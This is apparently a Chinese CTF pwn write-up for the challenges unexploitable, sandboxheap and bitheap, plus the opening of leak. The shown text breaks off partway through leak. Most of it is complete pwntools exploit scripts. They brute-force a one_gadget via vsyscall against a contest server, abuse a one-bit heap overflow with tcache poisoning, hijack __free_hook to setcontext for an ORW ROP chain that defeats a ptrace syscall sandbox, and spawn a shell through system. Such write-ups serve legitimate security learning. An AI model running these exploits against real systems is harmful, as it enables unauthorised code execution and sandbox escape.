## unexploitable

### 保护策略：




### 利用思路：


因为程序仅仅有一个read函数，没有canary，而且溢出的字节非常大，所以本题可以随便溢，但问题是没有后门函数，并且没有输出函数。在开了PIE的情况下，很多花活是没法用的。


通过调试发现，在main函数返回到libc_start_main函数的时候，该地址是一个libc地址，而让执行流跳到一个地址就能get shell的地址只有one_gadget。通过用set命令更改内存的值为one_gadget，发现第一个one_gadget就能用(如下)



于是思路就是将libc start main的后三字节，改为one_gadget地址(由于libc地址后三位是固定的，所以我们需要爆破前三位，概率为1/4096)。


但如果我们单纯的填垃圾数据，然后溢出篡改的话，情况如下



即使我们溢出篡改了libc_start_main,也会返回到它上面的地址，所以我们需要让执行流滑到libc_start_main上，开了PIE保护，我们无法直接获取ret指令的地址，但是vsyscall的地址始终是固定的，它可以当做ret指令来用。

所以我们把上图的0xdeadbeef改成vsyscall的地址即可，执行到vsyscall的时候就可以往下滑到爆破成功的one_gadget，从而获取shell。

### EXP:

```py
from pwn import *
context.log_level='debug'
context.arch='amd64'

def pwn():
    payload=p64(0xdeadbeef)*3+p64(0xffffffffff600000)*2+b'\xa5\x22\x06'
    #debug(p)
    p.send(payload)
    p.sendline('cat flag')
    a=p.recv(timeout=0.5)
    if not a:
        return
    p.interactive()
    

while 1:
    try:
        p=remote("101.201.71.136",41614)
        #p=process("./unexploitable")
        pwn()
    except EOFError:
        p.close()
```



hhhh，运气不够，终端来凑，开了12个，爆了六七分钟。


## sandboxheap

### 保护策略：


### 沙箱分析：

因为本人比较菜，第一次见到题目给的这种沙箱文件，再加上比较好奇，就研究了一番，大致的分析过程如下：

通过查阅资料发现ptrace(PTRACE_GETREGS, child_pid, NULL, &regs)的第四个参数是&regs，而这个regs是在ptrace.h定义的一个结构体user_regs_struct(用来保存各个寄存器的值)，我们再去看下IDA里的伪代码(如下)，发现第四个参数是v8，因此判断v8就是user_regs_struct结构体




所以我们去将v8的类型改成user_regs_struct(如下)


同时还可以看到由于v8确定为结构体后，里面的一些寄存器也在IDA中显示了出来




这时候我们从头分析一下，fork的返回值给了v3，然后又把v3给v4.接着if(v3)，而fork函数会有两个返回值，原本的父进程会返回子进程的id,而子进程则返回0。所以接下来的if(v3)只有父进程(sandbox)能进


子进程返回的是0，所以触发else(如下)



第一行的ptrace(PTRACE_TRACEME, 0LL, 0LL, 0LL)表示被父进程跟踪，任何信号(包括子进程中执行的syscall)都会暂停子进程，阻塞与wait()等待的父进程被唤醒。第二行的execvp则执行了a2[1]这个文件，a2则是命令行参数，这道题的沙箱自然是给sandboxheap开的，所以本题正确的运行方式应该是`./sandbox ./sandboxheap` ，这样子进程就调用了题目的附件。从而实现了个sandboxheap开了一个沙箱保护。


接着回到父进程那边，现在去看一下这个沙箱是怎么实现对某些系统调用的拦截的



在①的位置使用了ptrace(PTRACE_GETREGS, child_pid, NULL, &regs)，此时子进程的寄存器信息会存储到regs结构体里，而在②的上面一行，去赋给了regs.rax为-1，然后执行②的时候，ptrace(PTRACE_SETREGS, child_pid, NULL, &regs) 会将regs结构体里的值拷贝给子进程的各个寄存器，这样子进程的rax就变成了-1，当子进程去执行syscall的时候发现rax是一个无效的系统调用号，就会报bad syscall从而完成了拦截。


而我们要绕过沙箱的禁用，所以想办法不能被拦截下来。重新看一下规则，只要我们能保证这个位置的数值是0，那就不会被拦截下来(如下)


但是在最开始执行alarm系统调用(系统调用号为37)的时候，对0x202040这片内存进行了赋值为1的操作(如下)，也就是说正常的话，我们rax无论是多少，最终加上0x202040这个地址拿到的都是1，从而被拦截。




但是我们发现程序里给了一些位置为0的机会，我们将给的这些地址都去减0x202040后，看一下对应的系统调用(如下)

如果我们想把open和read、write都位置都置成1，那就需要下面的两个if全部进入，而a1如果为3的话，就可以满足两个if的判断


这个a1就是rdi，而想进入这个函数，需要rax为0x2710(如下)


综上所述，如果我们想完成orw的话，需要在此之前设置rdi为3 rax为0x2710并执行一次syscall，才能自定义一个能够orw的白名单。


### 漏洞所在：



在edit函数里，input函数(函数已重命名)的参数有个+1，所以判断这里是存在个溢出的。

然后input函数里面是这样的(如下)


说实话这个我没太看懂，不过根据调试和师傅们的提示，感觉这里的大概意思就是说，我们输入的一个字节只取末尾一个比特，而八个字节就会取出来八个比特，这取出来的八个比特才表示出了一个字节。在以前我们想发送p64()打包后的数据，仅仅只需要发送八字节，但是在这题里，我们需要用64个字节来表示一个八字节的地址。

举个例子，我们原本要往内存里写一个地址为`0xdeadbeef`，以前的话，我们使用p64(0xdeadbeef)即可，但是这道题的话，我们使用下面的部分才能达到同样的效果

```py
(bin(0xdeadbeef)[2:].rjust(64,'\x00').encode()[::-1])
```

重新回到漏洞上面，这道题通过调试可以发现是溢出了一个比特，其实跟off by null的思路一样，都是去溢出然后篡改堆块的prev_inuse位，然后去打一个堆块合并。但是这道题还有一个难点就是有沙箱保护，通过分析沙箱规则，我们需要打一条rop链。因此对应的策略就是用setcontext来改变寄存器的值，从而将执行流劫持到rop链上


### 利用思路：

由于我们需要打堆块合并，所以需要让合并的堆块释放掉能够进入unsorted bin，因此第一件事是先填满tcache bin。接着去打堆块合并,脚本如下：

```py
for i in range(11):
    add(i,0x88)
for i in range(7):
    delete(i)    

delete(7)#merge chunk   
payload=b'1'*(0x80*8)+b'00000100'+b'10000000'+b'00000000'*6+b'00000000'

edit(8,payload)
delete(9)#堆块合并
```


接下来去泄露堆地址和libc地址，大致思路就是做堆块重叠，让一块被释放掉的内存落在一个正在使用的堆块中，从而执行show函数完成泄露libc和堆地址。

```py
for i in range(7):
    add(i,0x80)

add(12,0xc0)
show(12)
leak_libc=recv_libc()
libc_base=leak_libc-0x3ebe40
log_addr('libc_base')
free_hook=libc_base+libc.symbols['__free_hook']
context_addr=libc_base+libc.symbols['setcontext']+53
log_addr('free_hook')
delete(8)

payload=b'1'*(0x98*8)
edit(12,payload)

show(12)
p.recvuntil(0x98*"\xff")
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
log_addr('heap_addr')
```

最后去打一个tcache poisoning,将free_hook申请出来，然后写入setcontext+53的地址，提前在堆块中布置好各个寄存器的值，最后去释放掉该堆块。即可控制各个寄存器，从而去执行系统调用read。将rop链读到执行流上，从而执行rop链(orw)读出flag。

### 关于setcontext

由于是第一次利用这个setcontext，所以对setcontext做一点总结。

这个setcontext是libc库里的一个函数，汇编代码如下:


通过汇编代码发现，该函数主要是通过取rdi加上偏移的内存来对大部分寄存器进行了赋值，如果我们能够控制rdi，并且让rdi之后的一定内存都是可控的，就相当于我们可以控制大部分寄存器的值了。假设我们将free_hook劫持为setcontext+53的地址,因为free函数时rdi本身就是堆块的地址，所以rdi之后的内存我们也是可控的，这样下次执行free的时候，就可以控制大部分的寄存器了。需要注意的是，为了保证执行流不断，所以我们要控制rcx寄存器，在上面的汇编中有一个push rcx，而接下来最后是一个ret可以将执行流控制到rcx上，换句话说，最后setcontext执行完的rip由rcx决定。利用思路就是设置大部分寄存器，然后去打一个read的系统调用，将orw的rop链读到read函数要返回的地址上，完成orw。

### EXP：

```py

from tools import *
context.log_level='debug'
context.arch='amd64'

def add(index,size):
    p.sendlineafter("Your choice: ",str(1))
    p.sendlineafter("Index: ",str(index))
    p.sendlineafter("Size: ",str(size))
    
    
def edit(index,content):
    p.sendlineafter("Your choice: ",str(2))
    p.sendlineafter("Index: ",str(index))
    p.sendafter("Content: ",content)
    
def show(index):
    p.sendlineafter("Your choice: ",str(3))
    p.sendlineafter("Index: ",str(index))   


def delete(index):
    p.sendlineafter("Your choice: ",str(4))
    p.sendlineafter("Index: ",str(index))   

p,e,libc=load("a","47.95.3.91:12243")


for i in range(11):
    add(i,0x88)
for i in range(7):
    delete(i)    

delete(7)#merge chunk   
payload=b'1'*(0x80*8)+b'00000100'+b'10000000'+b'00000000'*6+b'00000000'

edit(8,payload)

delete(9)#堆块合并

payload=bin(0x67616c662f2e)[2:].rjust(64,'\x00').encode()[::-1]
edit(10,payload)
for i in range(7):
    add(i,0x80)

add(12,0xc0)
show(12)
leak_libc=recv_libc()
libc_base=leak_libc-0x3ebe40
log_addr('libc_base')
free_hook=libc_base+libc.symbols['__free_hook']
context_addr=libc_base+libc.symbols['setcontext']+53
log_addr('free_hook')
delete(8)

payload=b'1'*(0x98*8)
edit(12,payload)

show(12)
p.recvuntil(0x98*"\xff")
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
log_addr('heap_addr')


payload=b'1'*(0x80*8)+(bin(0x0)[2:].rjust(64,'\x00').encode())+(bin(0x101)[2:].rjust(64,'\x00').encode())+(bin(free_hook)[2:].rjust(64,'\x00').encode()[::-1])

edit(12,payload)
add(13,0x80)
#rsp heap_addr+0x640 0xa0
#rsi heap_addr+0x6b0 0x70
#rdi heap_addr+0x6a8 0x68
#rdx heap_addr+0x6c8 0x88
#rcx heap_addr+0x6e8 0xa8

pop_rdi_ret = libc_base + 0x000000000002164f
pop_rsi_ret = libc_base + 0x0000000000023a6a
pop_rdx_r12_ret = libc_base + 0x0000000000130514
pop_rax_ret = libc_base + 0x000000000001b500
syscall = libc_base + 0x00000000000d2625

payload=(bin(0x110020+libc_base)[2:].rjust(64,'\x00').encode()[::-1])
payload+=(bin(0xdeadbeef)[2:].rjust(64,'\x00').encode()[::-1])*12
payload+=(bin(0x0)[2:].rjust(64,'\x00').encode()[::-1])#rdi
payload+=(bin(heap_addr+0x640)[2:].rjust(64,'\x00').encode()[::-1])#rsi
payload+=(bin(0xdeadbeef)[2:].rjust(64,'\x00').encode()[::-1])*3
payload+=(bin(0x800)[2:].rjust(64,'\x00').encode()[::-1])#rdx
payload+=(bin(0xdeadbeef)[2:].rjust(64,'\x00').encode()[::-1])*1
payload+=(bin(heap_addr+0x648)[2:].rjust(64,'\x00').encode()[::-1])#rsp
payload+=(bin(0x110020+libc_base)[2:].rjust(64,'\x00').encode()[::-1])#rcx

edit(12,payload)
add(14,0x80)

payload=bin(context_addr)[2:].rjust(64,'\x00').encode()[::-1]
edit(14,payload)

debug(p,'pie',0xED6,0xEE2,0xEEE,0xEFA,0xC9F,0xBA7)
delete(12)

orw = b'a'*8
orw+=p64(pop_rdi_ret)+p64(3)
orw+=p64(pop_rax_ret)+p64(0x2710)
orw+=p64(syscall)
orw+=p64(pop_rdi_ret) + p64(0)
orw += p64(libc_base + libc.symbols['close'])
orw += p64(pop_rdi_ret) + p64(heap_addr + 0x7f0)
orw += p64(pop_rsi_ret) + p64(0)
orw += p64(pop_rax_ret) + p64(2)
orw += p64(syscall)
orw += p64(pop_rdi_ret) + p64(0)
orw += p64(pop_rsi_ret) + p64(heap_addr + 0x5b0)
orw += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0)
orw += p64(pop_rax_ret) + p64(0)
orw += p64(syscall)
orw += p64(pop_rdi_ret) + p64(1)
orw += p64(pop_rsi_ret) + p64(heap_addr + 0x5b0)
orw += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0)
orw += p64(pop_rax_ret) + p64(1)
orw += p64(syscall)
pause()
p.send(orw)
p.interactive()
```





## bitheap

这个题就是没加沙箱的sandboxheap，一模一样

而且比较巧的是，setcontext和分析沙箱规则都是比赛期间现学的，在打rop链之前，我专门去写了一个劫持free_hook写入system地址然后获取shell的脚本(没给这题开沙箱)，而且还当时专门保留了一份

思路同上题一样，不过最后写入的是system地址而非setcontext+53，脚本如下:

### EXP:

[tools-函数库 | ZIKH26's Blog](https://zikh26.github.io/posts/ad411136.html)

```py
from tools import *
#context.log_level='debug'
context.arch='amd64'

def add(index,size):
    p.sendlineafter("Your choice: ",str(1))
    p.sendlineafter("Index: ",str(index))
    p.sendlineafter("Size: ",str(size))
    
    
def edit(index,content):
    p.sendlineafter("Your choice: ",str(2))
    p.sendlineafter("Index: ",str(index))
    p.sendafter("Content: ",content)
    
def show(index):
    p.sendlineafter("Your choice: ",str(3))
    p.sendlineafter("Index: ",str(index))   


def delete(index):
    p.sendlineafter("Your choice: ",str(4))
    p.sendlineafter("Index: ",str(index))   
    
p,e,libc=load("a","47.95.3.91:23899")


for i in range(11):
    add(i,0x88)
for i in range(7):
    delete(i)    

delete(7)#merge chunk   
payload=b'1'*(0x80*8)+b'00000100'+b'10000000'+b'00000000'*6+b'00000000'

edit(8,payload)
delete(9)#堆块合并

for i in range(7):
    add(i,0x80)

add(12,0xa0)
show(12)
leak_libc=recv_libc()
libc_base=leak_libc-0x3ebe40
log_addr('libc_base')
free_hook=libc_base+libc.symbols['__free_hook']
sys_addr=libc_base+libc.symbols['system']
delete(8)
log_addr('free_hook')
payload=b'1'*(0x80*8)+(bin(0x0)[2:].rjust(64,'\x00').encode())+(bin(0x101)[2:].rjust(64,'\x00').encode())+(bin(free_hook)[2:].rjust(64,'\x00').encode()[::-1])

edit(12,payload)
add(13,0x80)
payload=bin(0x68732f6e69622f)[2:].rjust(64,'\x00').encode()[::-1]
edit(12,payload)
add(14,0x80)
payload=bin(sys_addr)[2:].rjust(64,'\x00').encode()[::-1]
edit(14,payload)
debug(p,'pie',0xED6,0xEE2,0xEEE,0xEFA,0xC9F)
delete(12)
p.interactive()
```

本地获取shell的情况，同样打远程也ok(或者拿着sandboxheap的exp直接打也行)




## leak

### 保护策略：


emmm这个沙箱，感觉开了和没开一样。

### 程序分析：

在delete函数里存在UAF漏洞(如下)

